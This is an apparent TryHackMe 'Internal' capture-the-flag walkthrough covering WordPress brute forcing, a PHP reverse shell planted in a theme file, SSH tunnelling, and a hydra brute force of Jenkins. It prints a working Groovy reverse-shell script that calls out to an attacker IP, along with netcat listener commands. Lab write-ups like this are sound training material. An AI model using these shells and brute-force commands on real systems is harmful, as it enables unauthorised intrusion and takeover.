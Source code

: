 ```yaml
---
layout: default
title: Internal
description: THM - Internal
---
```


## Enumeration

Nmap Scan:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 21:21 EEST
Nmap scan report for 10.10.61.56
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.14 seconds
```

Gobuster:
```
/blog
/wordpress
/javascript
```
WPscan:
```
wpscan --url http://10.10.61.56/blog/ --enumerate u

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
This would be a good time to add “internal.thm” to your “/etc/hosts”.

Now, while I look around on the pages for any clues (CTFs am i right?), I'll start wpscan to bruteforce the wordpress login.

While I was looking around, wpscan found something.
```
[!] Valid Combinations Found:
 | Username: admin, Password: [REDACTED]
```
And we logged in!

Now we'll navigate to “Appearance/Theme Editor” and replace the “404.php” file contents with a php shell. I'll use the one from PentestMonkey.

The theme is Twenty Seventeen, so our shell will be located at 
```
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```
Now we got our shell:
```
# nc -lvnp 9002            
Listening on 0.0.0.0 9002
Connection received on 10.10.61.56 39104
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:37:53 up 18 min,  0 users,  load average: 0.00, 0.05, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ 

```

I recommend checking out “Full TTYs” from hacktricks -> [Right Here](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

We cd into “/home”, and have a look around.
```
www-data@internal:/$ cd /home
cd /home
www-data@internal:/home$ ls
ls
aubreanna
www-data@internal:/home$ cd aubreanna
cd aubreanna
bash: cd: aubreanna: Permission denied
www-data@internal:/home$
```
As you can see, we don't have permission to look inside “aubreanna”

We'll also check “/opt” as it's good practice.
```
www-data@internal:/opt$ ls
ls
containerd  wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:[REDACTED]
www-data@internal:/opt$
```
Cool, now we have aubreanna's login info. The text file indicates wordpress access, but we already have that. So let's try to ssh into the machine using those credentials.

```
aubreanna@internal:~$ whoami
aubreanna
```
We'll read “user.txt”, submit it, and then move on.
```
aubreanna@internal:/home$ cd aubreanna/
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
[REDACTED]
aubreanna@internal:~$ 

```
We've also found a "jenkins.txt" file, let's see what's inside.
```
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

Ok, we have an internal service running. Now we need to access it.

A quick look on superuser.com, talks about forwarding / ssh tunneling. As we need to access an internal service from the outside.

And so, we create an ssh tunnel:
```
ssh -N -L 5555:172.17.0.2:8080 aubreanna@10.10.61.56
```
And if we navigate to localhost:5555, we got access to a jenkins webpage.

Default credentials, or at least those that I know of, are not working, so I'll capture the login request in burp, and then use hydra to try and bruteforce it.
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 5555 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```
```
[5555][http-post-form] host: 127.0.0.1   login: [REDACTED]   password: [REDACTED]
```
Cool! Now we'll login, and abuse the jenkins script console to get a reverse shell again.

We'll run this script in the “http://localhost:5000/script”:
```
String host="10.18.116.220";
int port=5554;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
```
nc -lvnp 5554
Listening on 0.0.0.0 5554
Connection received on 10.10.61.56 56022
python -c 'import pty; pty.spawn("/bin/bash")'
jenkins@jenkins:/$ 
```
And we have another shell!

Snooping around a bit, we find this:
```
jenkins@jenkins:/$ cd /home
cd /home
jenkins@jenkins:/home$ ls
ls
jenkins@jenkins:/home$ cd /opt
cd /opt
jenkins@jenkins:/opt$ ls
ls
note.txt
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:[REDACTED]
jenkins@jenkins:/opt$ 
```
Looks like we have the root password. Let's try to ssh using these credentials.

```
Last login: Mon Aug  3 19:59:17 2020 from 10.6.2.56
root@internal:~# id
uid=0(root) gid=0(root) groups=0(root)
root@internal:~#
```

All there's left to do, is to read the “/root/root.txt” file, and you're done!

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/internal)

[back](./)
